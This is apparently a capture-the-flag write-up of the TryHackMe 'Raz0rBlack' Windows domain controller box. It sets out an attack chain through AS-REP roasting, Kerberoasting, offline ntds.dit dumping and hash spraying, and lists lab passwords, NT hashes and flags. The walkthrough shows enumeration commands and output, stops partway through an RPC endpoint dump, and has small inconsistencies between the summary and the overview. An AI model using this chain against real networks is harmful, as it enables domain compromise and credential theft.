



<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `raz0rblack.thm`, `HAVEN-DC`), **Difficulty:** Medium

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **NFS** (`showmount -e`) exports a share → user lists / files.
2. **AS-REP roast** → `twilliams` hash → crack → **`twilliams : roastpotatoes`**.
3. As `twilliams`, **targeted Kerberoast** `xyan1d3` → crack → **`xyan1d3 : cyanide9amine5628`** → `evil-winrm`.
4. `xyan1d3` can read a `trash`/backup SMB share containing **`experiment_gone_wrong.zip`** (holds `ntds.dit` + `system.hive`). `zip2john` + `john` → zip password.
5. **`secretsdump.py -ntds ntds.dit -system system.hive LOCAL`** → all domain hashes incl. Administrator (`1afedc472d0fdfe07cd075d36804efd0`).
6. Password-spray the NT hashes with `crackmapexec` → `lvetrova : f220d3988deb3f516c73f40ee16c431d` → `evil-winrm -H` → **root**; PtH Administrator for full compromise.
7. Flags hide in PowerShell `.xml` PSCredential files, `Import-Clixml` + `.GetNetworkCredential().password`.

</div>

<div class="callout callout-key">

**Credentials**

- `twilliams` : `roastpotatoes`
- `xyan1d3` : `cyanide9amine5628`
- `Administrator` NT: `1afedc472d0fdfe07cd075d36804efd0`
- `lvetrova` NT: `f220d3988deb3f516c73f40ee16c431d`

</div>

<div class="callout callout-success">

**Flags**

- `THM{62ca7e0b901aa8f0b233cade0839b5bb}` (xyan1d3.xml)
- `THM{694362e877adef0d85a92e6d17551fe4}` (lvetrova.xml)

</div>

---

## Overview

RAZ0RBLACK is a long one, and I mean that in the best way: it does not lean on a single flashy vulnerability, it strings together almost every classic Active Directory credential-hunting technique I know into one continuous chain. I started with an **NFS** export, which is a service I always check on an AD box precisely because it is so often forgotten about, sitting there with default `no_root_squash` or overly permissive exports while everyone's attention goes to SMB and LDAP. That export handed me a spreadsheet of employee names, which is exactly the kind of "boring" file that turns into a username list once you run it through a name-permutation script. From there the chain is a tour of Kerberos abuse: an **AS-REP roast** against an account with pre-authentication disabled gets the first foothold, and a BloodHound-guided **targeted Kerberoast** against a specific account, rather than a blind spray of every SPN on the domain, gets the second. The real turning point, though, is finding an **`experiment_gone_wrong.zip`** sitting on a share that only opened up once I stopped trying to browse it directly and went in through `ADMIN$` instead. That archive holds a raw `ntds.dit` and `SYSTEM` hive, which is effectively the entire domain's credential database sitting in a backup nobody remembered to lock down, and running `secretsdump.py` against it offline hands over every NT hash in the domain in one shot, Administrator included. Getting from "a pile of hashes" to an actual shell is its own small puzzle: the Administrator hash does not work anywhere useful, so the real move is spraying all of the recovered hashes across the domain with `crackmapexec` until one of them lands on a live account, and only then pivoting from there. Even the flags are hidden Windows-native, not sitting in a text file but inside exported PowerShell `PSCredential` XML blobs that need `Import-Clixml` and a `.GetNetworkCredential()` call to actually read.

Related AS-REP roasting and Kerberoasting: [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Reset](/writeups/tryhackme/windows/hard/reset/). Related offline `NTDS.dit` / `secretsdump` extraction and pass-the-hash: [Support](/writeups/hackthebox/windows/easy/support/), [Checkpoint](/writeups/hackthebox/windows/medium/checkpoint/).

---

## Full Walkthrough

### Nmap Scan

```bash
Nmap scan report for razorblack.thm (10.10.219.247)
Host is up, received user-set (0.10s latency).
Scanned at 2024-04-05 18:45:45 EDT for 235s
Not shown: 987 closed ports
Reason: 987 conn-refused
PORT      STATE    SERVICE       REASON      VERSION
53/tcp    open     domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open     kerberos-sec  syn-ack     Microsoft Windows Kerberos (server time: 2024-04-05 22:46:01Z)
111/tcp   open     rpcbind       syn-ack     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
389/tcp   open     ldap          syn-ack     Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack
464/tcp   open     kpasswd5?     syn-ack
593/tcp   open     ncacn_http    syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped    syn-ack
2049/tcp  open     mountd        syn-ack     1-3 (RPC #100005)
3389/tcp  open     ms-wbt-server syn-ack     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   DNS_Tree_Name: raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-05T22:48:20+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Issuer: commonName=HAVEN-DC.raz0rblack.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-04T22:45:26
| Not valid after:  2024-10-04T22:45:26
| MD5:   5948 f1f5 2365 23f9 181a bf48 710b 8f30
| SHA-1: 6820 240d 5f3b f3a9 ed89 a15c 2bcf 483d 1a10 c33d
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQc5CUzUlIbJdFoOygbMvn3DANBgkqhkiG9w0BAQsFADAi
| MSAwHgYDVQQDExdIQVZFTi1EQy5yYXowcmJsYWNrLnRobTAeFw0yNDA0MDQyMjQ1
| MjZaFw0yNDEwMDQyMjQ1MjZaMCIxIDAeBgNVBAMTF0hBVkVOLURDLnJhejByYmxh
| Y2sudGhtMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAl3A0yrXjWUuj
| LrewdID/1+NmknVzxmyoBMtU+WKOhFK37B0jWHOuNVATRg3TkHSdmKTjimQzNfcV
| IGvGCXviHkY3UOP1MMgN/n+lM0QHL7l3q5Ui7rsWBhatE51DMklGsiS6ZriaNGMI
| jAAJzyrAtFSCJMzXXq8Z74SG4LRy/mPp5jG3s9rzTTPdaShJ+dKeLcE2KOf+EX8k
| S7LJyJsCWjZFIkDi5r3T8Cz+BUggrUNXNf8yf//syfgUB6MwFoDQ/ALGhZ6Z4Umi
| 8+gBJ/Cn67mct9Un8V9xDF2oPL1MDVJeNurpXwKkpiduHfsY4MMMo15yD1hMkGrq
| dAhjhQyziQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQELBQADggEBADoftLRBiafqHUeBaxIAU+bFgnwcnuDWZ0or
| D60V2LwKddmxNUolMMthroiX8fzHcFhmSbQAmLnM1NU9jydzNYt0UmxHt38teWZN
| jgS/+wCdKqZyDIOyp06mMbOoTy4MeujK6X9CMRFGCLSsJbvRFe7dSYB4zyErFQAx
| mGj5cABUFDk2qBiPTckaVTQ7uAHFpvKDoSCClUNiqfKL4yKIqXQMJVP5XKfs6f4X
| sEO/aXLYRbe/oacu+NZe2NpGzlbNbZMfMZOr+U3WT54WkLb8XB9U3qOZ2o9H07DN
| CDW0Lgl52GsuZDX6i9ovN9g2vGMKqPeSn3Q0Pj/NScaZTQSAlI8=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-05T22:48:36+00:00; 0s from scanner time.
27715/tcp filtered unknown       no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/5%Time=66107F2D%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41792/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 63407/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 53984/udp): CLEAN (Timeout)
|   Check 4 (port 12245/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-05T22:48:22
|_  start_date: N/A
```

### Crackmapexec Enumeration

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 18:47]
└─[$]> crackmapexec smb $host -u 'guest' -p '' --shares    
SMB         10.10.219.247   445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\guest: STATUS_ACCOUNT_DISABLED 
```

That crackmapexec pass gave me the domain name, `raz0rblack.thm`, straight out of the SMB negotiation, and combined with LDAP on 389 and Kerberos on 88 from the nmap scan, it confirmed I was looking directly at the domain controller rather than a member server. Guest was disabled, so anonymous SMB was a dead end, but a domain controller almost always has more accounts reachable through other means than a single guest check will show.

Kerberos itself gives you one of those means for free: the KDC responds differently to a valid username than to an invalid one during pre-authentication, which lets you enumerate accounts without ever needing a password. I pointed `kerbrute` at a short username list to see whether that unauthenticated leak would confirm any accounts beyond the built-in ones.

```bash
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 18:53]
└─[$]> kerbrute userenum --dc $host -d raz0rblack.thm /usr/share/SecLists/Usernames/top-usernames-shortlist.txt  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/05/24 - Ronnie Flathers @ropnop

2024/04/05 18:54:00 >  Using KDC(s):
2024/04/05 18:54:00 >  	razorblack.thm:88

2024/04/05 18:54:00 >  [+] VALID USERNAME:	 administrator@raz0rblack.thm
2024/04/05 18:54:00 >  Done! Tested 17 usernames (1 valid) in 0.292 seconds
```

That shortlist only confirmed `administrator`, which was not surprising given how small a wordlist it was, but it did not discourage me. A negative result from a small username list just means I need a better source of usernames, not that the technique itself is a dead end, so I moved on to enumerating the RPC surface directly instead.

### RPC Enumeration

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 18:55]
└─[$]> python3 ~/ADTools/impacket/examples/rpcdump.py @raz0rblack.thm 
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Retrieving endpoint list from raz0rblack.thm
Protocol: [MS-RSP]: Remote Shutdown Protocol 
Provider: wininit.exe 
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.219.247[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\HAVEN-DC[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc06A070]

Protocol: N/A 
Provider: winlogon.exe 
UUID    : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0 
Bindings: 
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\HAVEN-DC[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc06A070]
          ncalrpc:[WMsgKRpc06AD61]

Protocol: N/A 
Provider: N/A 
UUID    : D09BDEB5-6171-4A34-BFE2-06FA82652568 v1.0 
Bindings: 
          ncalrpc:[csebpub]
          ncalrpc:[LRPC-2891e14c3ae381fbf0]
          ncalrpc:[LRPC-cb80ccb39376d2d6bc]
          ncalrpc:[LRPC-a74cf3a60481b51ba8]
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-cb80ccb39376d2d6bc]
          ncalrpc:[LRPC-a74cf3a60481b51ba8]
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-a74cf3a60481b51ba8]
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-8334f5dedb7d1f59bd]
          ncalrpc:[LRPC-1a295d9a9e84a00aea]
          ncalrpc:[LRPC-45bbe3704ebd0c09d0]

Protocol: N/A 
Provider: N/A 
UUID    : 697DCDA9-3BA9-4EB2-9247-E11F1901B0D2 v1.0 
Bindings: 
          ncalrpc:[LRPC-2891e14c3ae381fbf0]
          ncalrpc:[LRPC-cb80ccb39376d2d6bc]
          ncalrpc:[LRPC-a74cf3a60481b51ba8]
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 9B008953-F195-4BF9-BDE0-4471971E58ED v1.0 
Bindings: 
          ncalrpc:[LRPC-cb80ccb39376d2d6bc]
          ncalrpc:[LRPC-a74cf3a60481b51ba8]
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : DD59071B-3215-4C59-8481-972EDADC0F6A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D47017B-B33B-46AD-9E18-FE96456C5078 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 95406F0B-B239-4318-91BB-CEA3A46FF0DC v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4ED8ABCC-F1E2-438B-981F-BB0E8ABC010C v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0FF1F646-13BB-400A-AB50-9A78F2B7A85A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 6982A06E-5FE2-46B1-B39C-A2C545BFA069 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 082A3471-31B6-422A-B931-A54401960C62 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : FAE436B0-B864-4A87-9EDA-298547CD82F2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : E53D94CA-7464-4839-B044-09A2FB8B3AE5 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 178D84BE-9291-4994-82C6-3F909ACA5A03 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4DACE966-A243-4450-AE3F-9B7BCB5315B8 v2.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1832BCF6-CAB8-41D4-85D2-C9410764F75A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C521FACF-09A9-42C5-B155-72388595CBF0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2C7FD9CE-E706-4B40-B412-953107EF9BB0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 88ABCBC3-34EA-76AE-8215-767520655A23 v0.0 
Bindings: 
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 76C217BC-C8B4-4201-A745-373AD9032B1A v1.0 
Bindings: 
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 55E6B932-1979-45D6-90C5-7F6270724112 v1.0 
Bindings: 
          ncalrpc:[LRPC-b310a76fce909f0f63]
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 857FB1BE-084F-4FB5-B59C-4B2C4BE5F0CF v1.0 
Bindings: 
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : B8CADBAF-E84B-46B9-84F2-6F71C03F9E55 v1.0 
Bindings: 
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 20C40295-8DBA-48E6-AEBF-3E78EF3BB144 v1.0 
Bindings: 
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2513BCBE-6CD4-4348-855E-7EFB3C336DD3 v1.0 
Bindings: 
          ncalrpc:[LRPC-67d3ec30c1d4372f55]
          ncalrpc:[OLE8CE5C16C16A6E32691D2AD9E1E71]
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D3E2735-CEA0-4ECC-A9E2-41A2D81AED4E v1.0 
Bindings: 
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C605F9FB-F0A3-4E2A-A073-73560F8D9E3E v1.0 
Bindings: 
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1B37CA91-76B1-4F5E-A3C7-2ABFC61F2BB0 v1.0 
Bindings: 
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8BFC3BE1-6DEF-4E2D-AF74-7C47CD0ADE4A v1.0 
Bindings: 
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2D98A740-581D-41B9-AA0D-A88B9D5CE938 v1.0 
Bindings: 
          ncalrpc:[LRPC-faecdf7c96c56359c3]
          ncacn_np:\\HAVEN-DC[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: sysntfy.dll 
UUID    : C9AC6DB5-82B7-4E55-AE8A-E464ED7B4277 v1.0 Impl friendly name
Bindings: 
          ncalrpc:[LRPC-54f5fb5e3498cf38d7]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-e0a1fa2f4aed528b92]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]
          ncalrpc:[IUserProfile2]
          ncacn_np:\\HAVEN-DC[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[LRPC-5755dd94962b087983]
          ncalrpc:[OLE1F230FB8FFA20BFF9EDD95F9BCDA]
          ncalrpc:[LRPC-5755dd94962b087983]
